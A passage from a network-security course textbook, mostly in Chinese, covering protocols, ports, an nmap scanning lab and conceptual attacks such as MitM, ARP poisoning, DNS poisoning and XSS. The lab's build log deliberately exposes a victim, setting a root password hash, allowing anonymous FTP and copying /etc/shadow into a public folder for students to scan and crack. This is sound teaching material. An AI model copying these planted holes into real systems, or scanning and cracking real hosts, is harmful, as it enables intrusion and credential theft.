traceroute to 8.8.8.8 (8.8.8.8), 30 hops max, 60 byte packets
```


1  `ryan.njitdm.campus.njit.edu` (`172.24.80.1`)  0.217 ms  0.200 ms  0.252 ms

2  `ROOter.lan` (`192.168.2.1`)  5.790 ms  5.765 ms  6.275 ms

3  \* \* \* ①

4  `B4307.NWRKNJ-LCR-21.verizon-gni.net` (`130.81.27.166`)  19.166 ms  19.144 ms  21.097 ms

5  \* \* \* ①

6  `0.ae1.GW7.EWR6.ALTER.NET` (`140.222.2.227`)  12.376 ms  14.634 ms `0.ae2.GW7.EWR6.ALTER.NET` (`140.222.2.229`)  9.805 ms

7  `209.85.149.208` (`209.85.149.208`)  9.782 ms  10.331 ms  9.192 ms

8  \* \* \* ①


### 4.2.3. NAT

网络地址转换（NAT）主要用于允许本地 IP 地址共享一个公共 IPv4 地址。鉴于 IPv4 地址空间的匮乏，许多设备不得不共享一个地址。如在讨论 IPv6 时所提及，NAT 路由器通常还包含安全功能，例如有状态防火墙，因为执行 NAT 所需的硬件复杂性与防火墙所需的相当。

### 4.2.4. IPsec

互联网协议安全（IPsec）用于建立点对点加密隧道，以保护 IP 网络中传输的数据。IPsec 主要用于专用 VPN 链路，并利用三个主要部分：SA、ESP 和 AH：

SA 代表安全关联，是一个用于设置加密参数和交换密钥的通道。这通过 UDP 端口 500 进行。ESP 代表封装安全负载，用于加密 IP 头部和载荷。它使用标准 IP 数据包发送，协议字段设置为 50。AH 代表认证头部，可选地用于标准 IP 数据包中，协议字段设置为 51。AH 仅确保数据包未被篡改。

# 4.3. Transport Layer Protocols

### 4.3.1. TCP

传输控制协议（TCP）是大多数网络的核心。它通过三次握手提供可靠通信，将大数据段分解为数据包，确保数据完整性，并为这些数据包提供流量控制。当然，这一切都有代价，这种面向连接的协议通常比其对等体具有更高的延迟。鉴于 TCP 的复杂性，它经常成为攻击目标。TCP 栈不断适应和变化（在协议参数范围内），以避免 DoS 和 MitM 攻击。

### 4.3.2. UDP

用户数据报协议（UDP）是一种无连接协议，专为 TCP 可能延迟过高的场景设计。UDP 通过不进行握手或流量控制来实现这种性能提升。结果是一种速度快的协议，有时会丢弃数据报。UDP 常用于游戏或流媒体协议的基础，在这些协议中，数据包的时序比它们是否全部到达更重要。UDP 仍然使用校验和，因此您可以确保收到的任何 UDP 数据包的完整性。

## 4.3.3. Common Ports and Services

端口号用于传输层连接中，以指定要连接的服务。这允许单个主机上运行多个服务。端口 0 到 1023 是知名端口，通常支持常用服务。在大多数操作系统中，绑定到知名端口并监听连接需要管理员权限。注册端口范围从 1024 到 49151，运行服务不需要管理员权限。您可能会发现许多东西在监听这些端口，因为任何用户都可以在上面运行服务。最后，端口 49152 到 65535 由应用程序根据需要动态使用。

了解一些常用端口很重要，因为在这些端口上运行的服务可能会受到攻击。扫描机器时，只应打开必要的端口。

| Port Number | L4 Protocol | Usage |
|-------------|-------------|-------|
| 20 | TCP | File Transfer Protocol (FTP) Data Transfer |
| 21 | TCP | FTP Command Control |
| 22 | TCP | Secure Shell (SSH) |
| 23 | TCP | Telnet Remote Login Service |
| 25 | TCP | Simple Mail Transfer Protocol (SMTP) E-Mail |
| 53 | TCP, UDP | Domain Name System (DNS) |
| 67, 68 | UDP | Dynamic Host Configuration Protocol (DHCP) |
| 69 | UDP | Trivial File Transfer Protocol (TFTP) |
| 80 | TCP | Hypertext Transfer Protocol (HTTP) |
| 110 | TCP | Post Office Protocol (POP3) E-Mail |
| 119 | TCP, UDP | Network News Transfer Protocol (NNTP) |
| 123 | UDP | Network Time Protocol (NTP) |
| 137-139 | TCP, UDP | NetBIOS |
| 143 | TCP | Internet Message Access Protocol (IMAP) E-Mail |
| 161, 162 | TCP, UDP | Simple Network Management Protocol (SNMP) |
| 194 | TCP, UDP | Internet Relay Chat (IRC) |
| 389 | TCP, UDP | Lightweight Directory Access Protocol (LDAP) |
| 443 | TCP | HTTP Secure (HTTPS) HTTP over TLS/SSL |
| 3389 | TCP, UDP | Microsoft Terminal Server (RDP) |

# 4.4. Application Layer Protocols

## 4.4.1. DHCP

动态主机配置协议（DHCP）用于允许网络上的新客户端获取 IP 地址和所提供服务的信息。IPv4 地址可以被视为两组：静态地址和动态地址。动态地址由 DHCP 服务器在特定租期内分配。时间到期后，DHCP 服务器可能将地址分配给另一个客户端。DHCP 服务器还可以提供有关代理、域名服务器（DNS）、网关甚至从网络启动操作系统内核位置的信息！

鉴于现代网络的动态性质，客户端不断加入和离开，DHCP 是标准。从安全角度来看，冒充 DHCP 服务器的人可能会对网络造成严重破坏。这些恶意 DHCP 服务器可能导致流量被重定向以发起 MitM 攻击或导致 DoS 攻击。DHCP 依赖于广播地址解析协议（ARP）消息，并且不使用身份验证，这意味着一旦攻击者与受害机器处于同一以太网段，一切都无从谈起。

## 4.4.2. HTTP

超文本传输协议（HTTP）是一种基于文本的协议，用于管理网络流量的传输。它基于请求和响应的概念。典型的请求有一个方法和一个路径，例如 GET /index.html，这将检索网站的登录页面。响应有一个代码、消息，并可选地包含数据。一些标准响应如下所示：

| Code | Message |
|------|---------|
| 200 | OK |
| 202 | Accepted |
| 400 | Bad Request |
| 401 | Unauthorized |
| 403 | Forbidden |
| 404 | Not Found |
| 500 | Internal Server Error |
| 502 | Bad Gateway |
| 503 | Service Unavailable |

请求和响应都可以利用头部，即在初始请求或响应之后的任意文本行。由于头部被设计为开放式，因此随着时间的推移添加了许多新头部。现代 Web 请求/响应通常在头部中包含比 HTTP 1.1 定义的基础内容多得多的信息。未加密的 HTTP 流量通过端口 80 发送，容易受到攻击，因为所有信息都以明文形式发送。

## 4.4.3. SSL/TLS

安全套接层（SSL）或更现代的命名传输层安全（TLS）是一种协议，允许用于 Web 的明文协议被加密。它是一种通用协议，设计为其他协议通信的层。一些通常包装在 TLS 中的协议包括 HTTP、SMTP、IMAP、VoIP 和许多 VPN 协议。TLS 使用握手来交换证书信息，如图所示。应当注意的是，在撰写本文时，TLS 1.3 是最新版本，但只有半数网站支持它。TLS 1.2 是最常见的版本，如果遵循最佳实践，仍被认为是安全的，而 TLS 1.1 或更低版本被认为已弃用。

## 4.4.4. HTTPS

HTTPS “icon” by Sean MacEntee used under CC-BY 2.0.

超文本传输协议安全（HTTPS）通过将 HTTP 请求包装在 TLS 中来解决未加密流量的问题。HTTPS 流量使用端口 443，通常在浏览器左上角显示一个锁图标。单击图标，用户可以了解用于通信的证书的更多信息。利用强大的 PKI，HTTPS 允许客户端和服务器之间进行安全的 HTTP 通信。

## 4.4.5. RDP

远程桌面协议（RDP）内置于 Windows，通常用于远程控制机器。它通过 TCP 或 UDP 在端口 3389 上工作。虽然 RDP 对于在远程机器上执行远程管理非常有用，但如果不法分子获得访问权限，它也可能成为巨大的安全漏洞。RDP 在勒索软件攻击中的使用正在增加，因为勒索软件程序可能使用 RDP 来寻找其他攻击目标机器。

## 4.4.6. Telnet

Telnet 是一种过时的远程管理工具，通过明文通道提供对 shell 的访问。Telnet 运行在端口 23 上，虽然仍偶尔使用，但应当大多被淘汰。您仍会在嵌入式应用程序和旧系统中发现 Telnet。您也可能看到客户端被用于检查其他类型的流量。例如，您可以使用 Telnet 客户端提交 HTTP 请求或通过 SMTP 发送电子邮件。

## 4.4.7. SSH

安全外壳协议（SSH）是部署最广泛的远程管理工具。SSH 通过加密连接提供对 shell 的访问。SSH 支持许多选项，包括 SOCKS5 代理、端口转发以及多种身份验证方案的使用：密码、密钥、硬件设备等。SSH 使用 TCP 端口 22。

## 4.4.8. LDAP

轻量级目录访问协议（LDAP）用于访问和维护目录信息服务。它的主要用途是与 Windows Active Directory (AD) 配合使用，可用于从 AD 服务器获取有关用户和资源的信息。客户端可以通过服务器进行身份验证，并获得读取或读/写某些条目的权限。LDAP 最初不支持加密，因此开发了 LDAP over SSL (LDAPS)。LDAP 使用 TCP 和 UDP 端口 389，LDAPS 使用 TCP 端口 636。

## 4.4.9. DNS

域名系统（DNS）用于将域名解析为 IP 地址。域名是人们习惯用于网站的简单名称，例如 njit.edu，而不是 54.83.189.142。名称对于人们来说比 IP 地址容易记住得多。为了让计算机解析名称，它首先查询本地缓存，然后查询其主 DNS 服务器。假设 DNS 服务器找不到名称，它将查询根服务器以获取顶级域（TLD）服务器，该服务器维护该特定域（edu、com、net、org、gov 等）的权威名称服务器列表。最后，一旦找到权威名称服务器，它将响应该特定主机名的 IP 地址，该地址将被缓存并通过用户的主 DNS 服务器发送回用户。

DNS 设计为具有弹性和去中心化，但不幸的是，流量未经过身份验证或加密。这使其成为 MitM 攻击的目标。同样，缓存命中和未命中可以泄露最近解析了哪些名称的信息（就像在发现索尼 Rootkit 规模时的情况一样）。DNS 的递归性质在过去也允许 DoS 攻击，但大部分问题已通过将递归查询限制在面向用户的 DNS 服务器（即 DHCP 请求提供给您的服务器）上来解决。DNS 通过 UDP（偶尔也通过 TCP）在端口 53 上运行。

## 4.4.10. DNSSEC

域名系统安全扩展（DNSSEC）是一套旨在对域名查找响应进行身份验证的扩展规范。这可以通过检查响应服务器的数字签名来帮助防止 MitM 攻击。虽然这当然很有帮助，但重要的是要注意，DNSSEC 不提供机密性。任何有权访问流量的人仍然可以监控 DNS 解析。

## 4.4.11. IMAP/POP3

互联网消息访问协议（IMAP）和邮局协议 3（POP3）是用于从服务器检索电子邮件的两种协议。IMAP 是较新的协议，支持在服务器上保存邮件和文件夹。POP3 更为原始，仅支持检索（以及随后从服务器删除）电子邮件。两种协议都使用明文，现在通常在 TLS 上运行。POP3 默认使用 TCP 端口 110，如果使用 TLS 则为 995。IMAP 默认使用 TCP 端口 143，如果使用 TLS 则为 993。在 Web 邮件时代，很容易忘记这些协议，但安全专家必须牢记它们，因为它们可能仍用于支持企业设备。

## 4.4.12. SMTP

简单邮件传输协议用于发送/转发电子邮件。正如其名称所示，它是一种简单的协议，由文本行组成。基本 SMTP 使用 TCP 端口 25。SMTP 后来扩展以支持身份验证，并最终被包装在 TLS 中，仍然使用 TCP 端口 587。SMTP 服务器接受（希望是）经过身份验证的客户端的外发邮件，根据 DNS 记录中的邮件交换（MX）信息将邮件路由到其他 SMTP 服务器，并接受来自其他 SMTP 服务器的其域邮件。SMTP 服务器已实施各种检查，以确保来自某个域的消息确实来自该域。这主要用于打击垃圾邮件，垃圾邮件继续是一个问题。

## 4.4.13. NTP

网络时间协议使用 UDP 端口 123 将系统时间与时间服务器同步。NTP 服务器分层为 stratum，最低的 stratum 最接近最准确的时间源，如原子钟、GPS 等。NTP 很重要，因为许多协议（包括几个关键交换）要求系统时钟同步。系统时钟也用于检查证书何时过期，并在日志中用于指示某事发生的时间。如果没有准确、同步的系统时钟，许多事情会以令人惊讶的方式失败。

## 4.4.14. FTP

文件传输协议是一种相对简单的基于文本的协议，用于在机器之间传输文件。FTP 使用 TCP 端口 21，传统上建立两个通道：一个用于协议消息，另一个二进制通道用于数据。这种设置有趣的地方在于，FTP 服务器会发起从服务器到客户端的数据通道连接，这意味着在许多 NAT 情况下，如果客户端位于防火墙后且不易被访问，连接就会失败。解决此问题的方法是被动 FTP，它使用由客户端建立的单个通道。

尽管存在此初始缺陷，FTP 已被证明非常受欢迎，并且仍在许多企业环境中使用。您可能会看到 FTP 用于传输大量数据以导入系统，或用于在嵌入式系统中更新固件。您可以使用命令行客户端 ftp、图形客户端（如 Filezilla 或 SecureFX），甚至在大多数 Web 浏览器中使用 ftp:// URL 方案来使用 FTP。

不幸的是，FTP 不支持除密码以外的身份验证系统，且密码以明文形式发送。因此，建议使用安全 FTP（SFTP）。SFTP 使用 SSH 连接通过加密通道发送和接收文件。SFTP 还支持所有 SSH 身份验证方法。

## 4.4.15. SNMP

SNMP by Deegii121314 used under CC-BY-SA 4.0

简单网络管理协议用于收集有关网络运行情况的信息。它分为两组：使用 UDP 端口 161（TLS 10161）的客户端和使用 UDP 端口 162（TLS 10162）的管理器。管理器收集客户端关于网络运行情况的消息，并使用这些信息根据需要采取行动。SNMP 可用于传递有关机器温度、当前连接数、当前正在使用的通道容量等信息。SNMP 目前已更新至版本 3，该版本加密并要求身份验证。这一点尤为重要，因为 SNMP 是一种非常强大的协议，交换的信息可能对攻击者非常有价值。对 SNMP 的访问应受到限制，并且应监控其在网络上的使用情况。

# 4.5. Lab: Scanning with nmap

对于本实验，我们将首先下载并提取所需的文件。下载 nmap.zip 并将其提取到可以从 shell 访问的目录中。在该目录中打开一个 shell（它应该包含一个 docker-compose.yml 文件以及 victim 和 scanner 目录）。由于我们将在此实验中模拟多台机器，我们将使用已随 Docker 一起安装的 Docker Compose。Docker Compose 读取 docker-compose.yml 文件，该文件应该已经在您的 nmap 目录中。运行 docker-compose up --build --detach 以在后台构建和运行镜像：

```
PS C:\Users\rxt1077\temp\nmap> docker-compose up --build --detach
```


# 构建受害者

```
[+] Building 2.9s (15/15) FINISHED

=> [internal] load build definition from Dockerfile                                                                                                   0.1s
=> => transferring dockerfile: 518B                                                                                                                   0.0s
=> [internal] load .dockerignore                                                                                                                      0.1s
=> => transferring context: 2B                                                                                                                        0.0s
=> [internal] load metadata for docker.io/library/debian:latest                                                                                       0.0s
=> [1/10] FROM docker.io/library/debian                                                                                                              0.0s
=> [internal] load build context                                                                                                                      0.0s
=> => transferring context: 640B                                                                                                                      0.0s
=> CACHED [2/10] RUN apt-get -y update                                                                                                               0.0s
=> CACHED [3/10] RUN apt-get -y install proftpd-basic                                                                                                0.0s
=> CACHED [4/10] RUN sed -i "1s/.*/root:$6$.DEC7ti\/4959zEK9$H7BPwBTz6tISYG8oZuhXLS5L3ZPYwdzzQNQTg8m4Ql3ebX9U\/afVhi4OSpK3mNTSpT8DefJ2USdWuT5DHOkRY  0.0s
=> [5/10] RUN sed -i "/^root/d" /etc/ftpusers                                                                                                        0.4s
=> [6/10] COPY bad.conf /etc/proftpd/conf.d/                                                                                                         0.0s
=> [7/10] RUN chsh -s /bin/bash ftp                                                                                                                  0.6s
=> [8/10] RUN mkdir -p /home/ftp/incoming                                                                                                            0.5s
=> [9/10] RUN cp /etc/shadow /home/ftp/incoming/shadow.backup                                                                                        0.6s
=> [10/10] RUN chown -R ftp.users /home/ftp                                                                                                           0.5s
=> exporting to image                                                                                                                                 0.2s
=> => exporting layers                                                                                                                                0.2s
=> => writing image sha256:dc9af53b250b4f7fcfbe5a6668a540bd02ebef0353c5927ed4591a512363e831                                                           0.0s
=> => naming to docker.io/library/nmap_victim                                                                                                         0.0s
```

使用 `docker scan` 对镜像运行 Snyk 测试以查找漏洞并了解如何修复它们

# 构建扫描器

```
[+] Building 0.1s (7/7) FINISHED

=> [internal] load build definition from Dockerfile                                                                                                   0.0s
=> => transferring dockerfile: 111B                                                                                                                   0.0s
=> [internal] load .dockerignore                                                                                                                      0.0s
=> => transferring context: 2B                                                                                                                        0.0s
=> [internal] load metadata for docker.io/library/debian:latest                                                                                       0.0s
=> [1/3] FROM docker.io/library/debian                                                                                                                0.0s
=> CACHED [2/3] RUN apt-get -y update                                                                                                                 0.0s
=> CACHED [3/3] RUN apt-get -y install nmap ftp john                                                                                                  0.0s
=> exporting to image                                                                                                                                 0.0s
=> => exporting layers                                                                                                                                0.0s
=> => writing image sha256:14ba503b7925089023184d783c53c22c4167fdf2338df0e85143daedf8b458ac                                                           0.0s
=> => naming to docker.io/library/nmap_scanner                                                                                                        0.0s
```

使用 `docker scan` 对镜像运行 Snyk 测试以查找漏洞并了解如何修复它们

启动 `nmap_scanner_1` ... 完成

重新创建 `nmap_victim_1` ... 完成 ¶ ¶ 现在我们实际上有两个容器在运行，一个名为 victim（我们的目标机器），另一个名为 scanner（我们将使用它来学习 nmap）。让我们在 scanner 上启动一个 BASH shell 并从那里开始： ¶ ¶ `PS C:\Users\rxt1077\temp\nmap> docker-compose run scanner bash`

创建 `nmap_scanner_run` ... 完成

`root@7b6d733cc03a:/①` ¶ ¶ ① 注意提示符的变化。我们现在位于运行 BASH 的 scanner 容器内部。 ¶ 让我们使用 Linux `ip addr` 命令查看我们在此网络上的 IP 地址： ¶ ¶ `root@7b6d733cc03a:/# ip addr`

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000

link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00

inet 127.0.0.1/8 scope host lo

valid_lft forever preferred_lft forever

2: tunl0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000

link/ipip 0.0.0.0 brd 0.0.0.0

3: sit0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000

link/sit 0.0.0.0 brd 0.0.0.0

165: eth0@if166: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default

link/ether 02:42:ac:14:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0

inet 172.20.0.2/16 brd 172.20.255.255 scope global eth0

valid_lft forever preferred_lft forever
```

我们关心的是 `eth0` 设备，所以如你所见，在我机器上的地址是 `172.20.0.2`。我们将使用 nmap 的 ping 扫描来搜索我们 IP 地址最后 8 位（`/24`）内的任何设备。你可能会注意到我们实际上处于 `/16` 子网中，但通过将自己限制在 `/24`，扫描速度会快得多。 ¶ ¶ `root@7b6d733cc03a:/# nmap -sP 172.20.0.0/24`

```
Starting Nmap 7.70 ( https://nmap.org ) at 2021-09-22 20:25 UTC

Nmap scan report for 172.20.0.1

Host is up (0.000076s latency).

MAC Address: 02:42:A6:CA:0D:77 (Unknown)

Nmap scan report for nmap_victim_1.nmap_default (172.20.0.3)

Host is up (0.000070s latency).

MAC Address: 02:42:AC:14:00:03 (Unknown)

Nmap scan report for 7b6d733cc03a (172.20.0.2)

Host is up.
```


# Nmap 网络扫描示例

Nmap done: 256 IP addresses (3 hosts up) scanned in 5.78 seconds

在本例中，我们在网络上发现了三台其他机器。其中一台机器方便地命名为 victim。

阅读 nmap 文档以了解主机发现。如果主机不响应 ICMP ping 数据包，可以使用哪些其他类型的扫描？

现在对 victim 机器进行完整扫描。Docker Compose 在 docker-compose.yml 文件中很好地解析了合理名称的 DNS 请求，因此我们可以将要扫描的主机称为 victim。

```
root@7b6d733cc03a:/# nmap victim

Starting Nmap 7.70 ( https://nmap.org ) at 2021-09-22 20:37 UTC

Nmap scan report for victim (172.20.0.3)

Host is up (0.000018s latency).

rDNS record for 172.20.0.3: nmap\_victim\_1.nmap\_default

Not shown: 999 closed ports

PORT   STATE SERVICE

21/tcp open  ftp

MAC Address: 02:42:AC:14:00:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.84 seconds
```

默认情况下，nmap 对知名端口使用 SYN 扫描。这种扫描更难被检测到（因为它不会完全打开连接），并且可以快速运行。

victim 机器上有哪些端口是开放的？为什么这个特定协议不安全？

nmap 的功能远不止简单的端口扫描。nmap 包含版本检测和 OS 指纹识别（以及其他功能）。为了更好地了解 victim 正在运行什么，可以使用 `-A` 选项：

```
root@7b6d733cc03a:/# nmap -A victim

Starting Nmap 7.70 ( https://nmap.org ) at 2021-09-22 20:44 UTC

Nmap scan report for victim (172.20.0.3)

Host is up (0.000096s latency).

rDNS record for 172.20.0.3: nmap\_victim\_1.nmap\_default

Not shown: 999 closed ports

PORT   STATE SERVICE VERSION

21/tcp open  ftp     ProFTPD

| ftp-anon: Anonymous FTP login allowed (FTP code 230)

|\_drwxr-xr-x   1 ftp      users        4096 Sep 22 20:11 incoming

MAC Address: 02:42:AC:14:00:03 (Unknown)

No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

TCP/IP fingerprint:

OS:SCAN(V=7.70%E=4%D=9/22%OT=21%CT=1%CU=44136%PV=Y%DS=1%DC=D%G=Y%M=0242AC%T

OS:M=614B95AE%P=x86\_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=109%TI=Z%CI=Z%TS=A

OS:)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B

OS:4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88

OS:)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+

OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)

OS:T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A

OS:=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%D

OS:F=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=4

OS:0%CD=S)

Network Distance: 1 hop

TRACEROUTE

HOP RTT     ADDRESS

1   0.10 ms nmap\_victim\_1.nmap\_default (172.20.0.3)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```


Nmap done: 1 IP address (1 host up) scanned in 28.39 seconds

你从 `-A` 选项中了解到了哪些额外信息？你认为这如何被利用？

现在，使用你当前所在的扫描器容器，看看你能发现关于 victim 的什么信息。这个手册页可能会有所帮助。

BONUS: 记住你在 Hash it Out 实验中学到的内容，victim 机器上的 root 密码是什么？

BONUS: 你如何测试是否正确？这说明 victim 上的 ProFTP 是如何配置的？

当你四处探查完毕后，可以退出 shell 并运行 `docker-compose down` 来停止 victim 在后台运行。

## 4.6. 复习问题

比较 SSH 和 Telnet 的异同。如果你需要推荐使用其中一种，你会选择哪个，为什么？

与 ARP 相关的一些安全问题是什么？可以采取哪些措施来缓解这些问题？

描述三种用于发送或接收电子邮件的协议。

# 5. 攻击

## 5.1. 拦截攻击

拦截攻击依赖于拦截网络通信的能力。这可能是由于所使用网络的性质，或者有时可能会利用其他方法来更好地定位攻击者。这些攻击通常涉及伪造虚构消息、记录传输的数据，或在网络上篡改消息内容。这一类攻击使 CIA 三要素的所有部分都面临风险。

### 5.1.1. MitM

中间人攻击（MitM）是一个统称，适用于攻击者拦截通信的情况。典型的攻击涉及窃听，并可能修改两方之间的消息。可以使用加密来缓解攻击，使攻击者无法解密他们正在拦截的消息。话虽如此，必须特别注意握手/密钥交换协议，以确保攻击者无法获得正在使用的密钥。以下是 MitM 被用来拦截和修改公钥交换的示例：

在上面的示例中，MitM 允许第一条消息无干扰地通过，但篡改了公钥交换。通过将自己的公钥传递给 Bob，MitM 有能力解密 Bob 发送的消息，并仍然可以使用 Alice 的公钥重新加密消息并将其传递给她。你可以看到，如果以这种方式交换两个公钥，就有可能设置一个 MitM 攻击，尽管有加密，所有消息都可以被看到。

### 5.1.2. MitB

MitB 代表浏览器中间人，通常是由特洛伊木马安装恶意软件引起的，该恶意软件允许攻击者拦截/修改浏览器和服务器之间的通信。这可以用于捕获表单上的数据、修改输入或修改服务器的响应。通常，MitB 攻击中使用的软件会处于休眠状态，直到受害者浏览到目标网站。以下是 MitB 攻击如何用于修改在线银行请求以汇款的示例：

正如你所看到的，攻击者最终得到了 10,000 美元，而受害者只是认为他们授权了向他人支付 1,000 美元。这些攻击可能难以检测，因为它们发生在浏览器内部，并且是机会主义的。

### 5.1.3. 重放攻击

这一类攻击通常涉及 MitM 制作传输的副本并重放它来冒充受害者。登录凭据、简单哈希和特定命令有时容易受到这种类型的攻击。解决方案是使用时间戳、随机数（该特定会话的随机数）、旋转密钥或计数器，以确保命令不能在上下文之外执行。

一次性密码

为了帮助缓解重放攻击，在线银行应用程序可能要求客户在提交事务时使用一次性密码（OTP）。OTP 是一个经常变化的值，客户端和服务器都已知。存在多种一次性密码方案，其中大多数使用客户端和服务器之间共享种子的加密哈希函数。客户端和服务器会定期基于种子更新到新哈希，如果没有种子，就不可能知道下一个哈希是什么。通过使用 OTP，任何拦截流量的人都无法执行重放攻击，因为密码不会是当前的。

#### 5.1.4. SSL 绕过

MitM 阻止 HTTPS 升级并窃取密码

如果你考虑上面 MitM 示例中给出的拦截密钥交换，类似的攻击可以允许攻击者查看 SSL 流量。攻击者给受害者一个虚假的证书颁发机构（CA）证书，受害者安装它。这通常通过特洛伊木马完成。然后，攻击者将自己置于未启动的安全连接中间。在密钥交换期间，攻击者为攻击者和受害者之间的连接创建一个由虚假 CA 签名的自定义证书。攻击者还与服务建立实际的 HTTPS 连接，并为受害者代理数据。受害者的所有数据都将以明文形式显示给攻击者，但连接对受害者来说将显得是安全的。这在 Fiddler 调试代理中用于解密 HTTPS 流量，也用于一些执行深度数据包检测的网络设备中。

对 SSL 的另一种 MitM 攻击只是与受害者保持或降级到 HTTP 连接，并将数据代理到与服务器的实际 HTTPS 连接。大多数服务器会升级不安全的连接，但通过拦截该交换，攻击者可以继续监控受害者的流量。

## 5.2. 网络层攻击

### 5.2.1. MAC 欺骗/MAC 克隆

大多数网络期望 MAC 地址将与网络接口控制器（NIC）上的唯一编号对应，但实际上更改它相当容易。虚拟网络需要使用不同 MAC 地址的功能，此功能内置于大多数现代操作系统中。MAC 欺骗是指攻击者将其 MAC 地址设置为网络上另一台机器的 MAC 地址，以试图发起攻击。例如，他们可能将自己设置为网关以发起 MitM 攻击。

### 5.2.2. MAC 泛洪

交换机的任务是跟踪哪些 MAC 地址对应交换机上的哪些端口。它们使用此功能来确保流量仅路由到需要去的地方。鉴于 MAC 地址可以更改，攻击者可以用许多不同 MAC 地址的数据包淹没交换机，并可能溢出 MAC-端口路由表。某些交换机可能默认采用集线器类似的功能，并将帧发送到所有端口，以努力保持流量流动。这随后允许攻击者捕获网络上其他机器的流量。

### 5.2.3. ARP 毒化

攻击者也可以使用 ARP 数据包来冒充网络上的另一台机器，例如网关路由器。通过反复发送 ARP 数据包， gratuitous arp，将绑定到网关 IP 的数据包重定向到攻击者的 MAC 地址，攻击者可以设置 MitM 场景。这尤其困难，因为取决于 ARP 缓存的 TTL，正常网络操作可能需要长达 20 分钟才能恢复。

## 5.3. 互联网层攻击

### 5.3.1. IP 欺骗

不幸的是，互联网协议（IP）在设计时并未考虑安全性。这意味着默认情况下，任何 IP 地址都可以放入数据包头，数据包仍会被转发到网络。这导致 IP 可以被欺骗并发送恶意数据包的问题。在该层面，对此问题没有很好的解决方案。这意味着数据包的来源通常需要在更高层进行身份验证，并且协议必须考虑到 IP 层本质上是不安全的。

Smurf 攻击

Smurf 攻击是欺骗 IP 地址如何导致重大问题的绝佳示例。Smurf 攻击是一种早期的分布式拒绝服务攻击。攻击者会创建一个 ICMP 回显请求，将受害者的 IP 地址作为源地址。此回显请求将指向子网的广播 IP 地址。子网上的许多客户端将响应回显请求，用响应淹没受害者。这种攻击的不对称性，即单个数据包可能引发数百个响应，使其特别难以处理。使用 Smurf 攻击，攻击者可以用最小的带宽让受害者陷入困境。现代客户端不再响应指向广播的 ICMP 回显请求，从而缓解了这种攻击的风险。

## 5.4. 名称解析攻击

### 5.4.1. DNS 缓存毒化

DNS 解析器可能被诱骗缓存错误信息并将其提供给其他客户端。在此场景中，攻击者通过用伪造的源 IP 响应 DNS 查询来承担权威 DNS 服务器的角色。之所以可能，原因之一是 DNS 查询响应通常是单个未经身份验证的数据包。一旦服务器拥有无效的 DNS 缓存条目，它将在条目的 TTL 期间继续将用户引导到错误的 IP 地址。DNSSEC 可以通过强制对 DNS 答案进行身份验证来缓解这些攻击。

### 5.4.2. LLMNR 劫持

在此场景中，攻击者响应链路本地多播名称解析（LLMNR）广播并冒充身份验证服务器。毫无戒心的受害者输入他们的凭据，这些凭据随即被窃取。可以通过在网络上禁用 LLMNR 来缓解此攻击。

### 5.5. 基于 Web 的攻击

万维网及其使用的协议/格式/语言（HTTP、HTML、JavaScript 等）最初并非以安全为设计目标。默认情况下，网页信任其接收的内容不是恶意的。脚本、命令、Cookie 等被隐式信任。Web 技术变得如此流行，以至于它们成为攻击者的常见目标，开发人员必须使用令牌、清理数据和检查输入，如果他们希望这些技术是安全的。

开放 Web 应用程序安全项目（OWASP）是 Web 应用程序安全资源的绝佳来源。他们维护着 Web 应用程序安全风险的前 10 名列表。截至 2021 年，OWASP 前 10 名是：

访问控制失效
加密失败
注入
设计不安全
安全配置错误
易受攻击且过时的组件
身份识别和身份验证失败
软件和数据完整性失败
安全日志记录和监控失败
服务器端请求伪造

### 5.5.1. XSS

跨站点脚本是指不良行为者将脚本注入网站的过程。请记住，许多网站从表单获取输入，并可能在另一个页面上显示该数据。如果该数据不仅仅是数据，而是实际上是一个 JavaScript 脚本，那么该脚本可能会在显示它的页面上运行。

使用此技术，攻击者可以访问 Cookie、会话令牌和其他敏感信息。取决于脚本注入的位置以及服务器如何显示该数据，脚本可能会永久存储在目标服务器上。XSS 脚本也可能被反射，通常发送在链接中，仅用于一次会话。

为了缓解 XSS 风险，Web 开发人员清理输入非常重要。当提交表单时，网站应检查提交的数据是否不是脚本或其他恶意内容。如果数据无法清理，则不应存储或使用。

Samy 蠕虫

2005 年 10 月 4 日，一个 XSS 蠕虫在当时占据主导地位的社交网络 MySpace 上传播。该蠕虫由 Samy Kamkar 编写，作为一条简单的帖子，当被阅读时，会导致查看者的机器发布他们自己的帖子，内容为 "but most of all, samy is my hero" 并包含传播代码。结果是，在 20 小时内，超过一百万用户运行了有效载荷。

现在 Samy 是一位知名的安全顾问，你可以在此处阅读他关于蠕虫的完整技术解释。Vice Motherboard 也为其 Greatest Moments in Hacking History 系列制作了一段关于 Samy 的节目。

### 5.5.2. CSRF

